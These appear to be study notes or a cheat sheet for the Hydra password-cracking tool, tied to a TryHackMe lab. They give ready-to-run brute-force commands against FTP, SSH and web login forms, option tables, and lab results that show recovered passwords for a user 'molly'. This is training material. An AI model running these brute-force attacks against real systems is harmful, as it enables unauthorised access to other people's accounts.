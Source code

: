 #Hydra

https://github.com/vanhauser-thc/thc-hydra

https://tryhackme.com/room/hydra

##FTP

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

    hydra -l user -P passlist.txt ftp://MACHINE_IP

##SSH

    hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

##Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

    hydra -l <username> -P <wordlist> 10.10.169.4 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

|Option         |Description|
|---|---|
|-l             |Single username|
|-P             |indicates use the following password list|
|http-post-form |indicsates the type of from (post)|
|/login url     |the login page URL|
|:username      |the form field where the username is entered|
|^USER^         |tells Hydra to use the username|
|password       |the form field where the password list supplied earlier|
|^PASS^         |tells Hydra to use the password list supplied earlier|
|Login          |indicates to Hydra the Login failed message|
|Login failed   |is the login failure message that the form returns|
|F=incorrect    |If this word appears on the page, its incorrect|
|-V             |verbose output for every attempt|

###Example

####Post Web Form

    hydra -l molly -P wordlists/rockyou.txt 10.10.169.4 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V

Login:molly password:sunshine

####SSH

    hydra -l molly -P wordlists/rockyou.txt 10.10.169.4 -t4 -V ssh

Login:molly password:butterfly

---

https://github.com/vanhauser-thc/thc-hydra

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

The syntax for the command we're going to use to find the passwords is this:

    hydra -t 4 -l <Username> -P /<Path>/rockyou.txt -vV <IP> <Protocol: ssh, ftp, udp,...>

Let's break it down:

|SECTION                 |FUNCTION|
|---|---|
|hydra                   |Runs the hydra tool|
|-t 4                    |Number of parallel connections per target|
|-l [user]               |Points to the user who's account you're trying to compromise|
|-P [path to dictionary] |Points to the file containing the list of possible passwords|
|-vV                     |Sets verbose mode to very verbose, shows the login+pass combination for each attempt|
|[machine IP]            |The IP address of the target machine|
|ftp / protocol          |Sets the protocol|

Let's crack some passwords!

